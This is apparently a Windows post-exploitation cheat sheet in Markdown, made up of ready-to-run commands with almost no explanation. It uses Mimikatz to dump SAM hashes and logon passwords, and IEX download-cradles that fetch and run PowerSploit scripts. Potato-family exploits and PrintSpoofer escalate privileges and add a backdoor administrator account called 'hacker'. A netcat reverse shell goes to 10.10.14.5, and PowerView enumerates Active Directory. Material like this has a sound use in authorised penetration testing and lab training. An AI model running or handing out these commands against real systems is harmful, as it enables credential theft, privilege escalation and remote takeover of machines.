 ## Run Mimikatz to dump SAM hashes
```cmd
.\mimikatz.exe "privilege::debug" "lsadump::sam" "exit"
```

## Run Invoke-Mimikatz PowerShell version
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'
```

## Check for SeImpersonatePrivilege or SeAssignPrimaryToken
```cmd
whoami /priv | findstr "SeImpersonate"
whoami /priv | findstr "SeAssignPrimaryToken"
```

## Run SweetPotato for privilege escalation
```cmd
.\SweetPotato.exe -p c:\windows\system32\cmd.exe -a "/c whoami"
.\SweetPotato.exe -p c:\windows\system32\cmd.exe -a "/c net user hacker Password123! /add && net localgroup administrators hacker /add"
```

## Run PrintSpoofer for Windows Server 2016/2019
```cmd
.\PrintSpoofer64.exe -i -c cmd
.\PrintSpoofer64.exe -c "nc.exe 10.10.14.5 4444 -e cmd.exe"
```

## Run JuicyPotato for older Windows versions
```cmd
.\JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c whoami > C:\temp\output.txt" -t *
.\JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c net user hacker Password123! /add" -t *
```

## Download PowerView for AD enumeration
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
```

## Get domain information with PowerView
```powershell
Get-Domain
Get-DomainUser
Get-DomainGroup
Get-DomainComputer
```
